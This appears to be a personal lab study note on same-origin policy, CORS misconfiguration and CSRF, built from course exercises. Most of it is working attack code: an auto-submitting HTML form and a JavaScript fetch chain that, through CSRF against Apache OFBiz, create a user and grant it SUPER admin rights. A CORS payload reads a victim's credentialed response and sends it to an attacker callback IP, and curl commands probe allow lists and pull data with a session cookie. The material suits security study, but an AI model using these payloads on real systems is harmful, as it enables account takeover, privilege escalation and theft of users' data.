 ### Same Origin Policy 
SOP blocks JavaScript and our browsers from accessing cross-origin resources, but it does not block the outgoing requests for such resources、

if the cookie has SameSite=Lax, the browser will not send it even if the preflight request indicates that the destination server allows credentials on CORS requests.
```
URL	RESULT	REASON
https://foo.com/myInfo	Allowed	Same Origin
http://foo.com/users.json	Blocked	Different Scheme and Port
https://api.foo.com/info	Blocked	Different Domain
https://foo.com**:8443**/files	Blocked	Different Port
https://bar.com/analytics.js	Blocked	Different Domain
```
### curl requesting cors settings
```
curl -v -X OPTIONS http://192.168.154.155/exercise2
```
### Servers can set several headers1 to enable CORS
···
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Allow-Origin: https://offensive-security.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: X-UserId
···
### CSRF(local test require apache2 service)
burp traffic of add user 
```
POST /webtools/control/createUserLogin HTTP/1.1
Host: ofbiz:8443
Connection: close
Content-Length: 178
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://ofbiz:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ofbiz:8443/webtools/control/createnewlogin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=76A7BCC53C2B9BF49B21F99D2D8CA5D5.jvm1; OFBiz.Visitor=10000

enabled=&partyId=&userLoginId=test&currentPassword=password&currentPasswordVerify=password&passwordHint=&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=
```
Create html payload ofbiz.html
```
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
  <input type="hidden" name="enabled">
  <input type="hidden" name="partyId">
  <input type="hidden" name="userLoginId" value="test">
  <input type="hidden" name="currentPassword" value="password">
  <input type="hidden" name="currentPasswordVerify" value="password">
  <input type="hidden" name="passwordHint">
  <input type="hidden" name="requirePasswordChange" value="N">
  <input type="hidden" name="externalAuthId">
  <input type="hidden" name="securityQuestion">
  <input type="hidden" name="securityAnswer">
  </form>
</body>
</html>
```
Use js to make request
```
<html>
<head>
<script>
  var username = "csrftest2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";
  function send_create() { 
  console.log("Creating user..."); 
  fetch(host+create_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body : create_params }
  ).then(function(response) {
    send_admin();
  }); 
}

function send_admin() { 
  console.log("Adding admin role..."); 
  fetch(host+admin_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded' 
    },
    body : admin_params }
  ).then(
    console.log("Should be done...") 
  );
}

send_create();
</script>
</head>
<body></body>
</html>
```
### Trusting any domain 
```
<html>
<head>
<script>
var url = "https://cors-sandbox/exercise1";
function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    Cookie: 'SessionCookie=1123581321345589144',
    credentials: 'include',
    Origin: 'hellocors'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.45.242/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
    console.log(data);
  });
}
get_code();
</script>
</head>
<body></body>
</html>
```
### Improper domain allow list
finding the allowed domain
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/882aaba3-c6b4-472c-9c3b-32efb60803b8)
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/ba46f78b-79d8-4cc5-b6d0-8d10ff7ef7bc)
```
curl -X "OPTIONS" -i -k https://cors-sandbox/allowlist
curl -X "OPTIONS" -i -H "Origin: http://www.offensive-security.com" -k https://cors-sandbox/allowlist
```
get the cookie
```
chrome access https://cors-sandbox/
dev tools - > network - cookies
```
get the flag 
```
curl -X "GET" -v -k -H "Origin: https://www.offensive-security.com" -H "Cookie: SessionCookie=1123581321345589144" https://cors-sandbox/exercise2
```
